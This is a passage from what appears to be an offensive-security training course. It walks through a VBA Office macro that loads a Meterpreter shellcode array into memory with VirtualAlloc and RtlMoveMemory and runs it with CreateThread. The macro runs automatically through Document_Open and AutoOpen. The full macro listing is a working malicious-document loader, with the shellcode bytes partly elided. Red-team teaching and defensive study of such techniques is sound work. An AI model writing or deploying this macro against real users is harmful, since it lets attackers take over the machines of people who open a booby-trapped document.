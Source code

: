 > Listing 25 - Declare statement for CreateThread

Having declared the function, we may now call it. This line is pretty simple with only one variable for the start address of our shellcode buffer.

Now we can piece the entire VBA macro together:

```
res = CreateThread(0, 0, addr, 0, 0, 0)
```

> Listing 26 - Call statement for CreateThread

To summarize, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use _VirtualAlloc_ to create some space for our shellcode. Next, we use _RtlMoveMemory_ to put our code in memory with the help of a _For_ loop. Finally, we use _CreateThread_ to execute our shellcode.

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    buf = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,72,49,210,81,101,72,
    ...
    06,0,89,187,224,29,42,10,65,137,218,255,213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
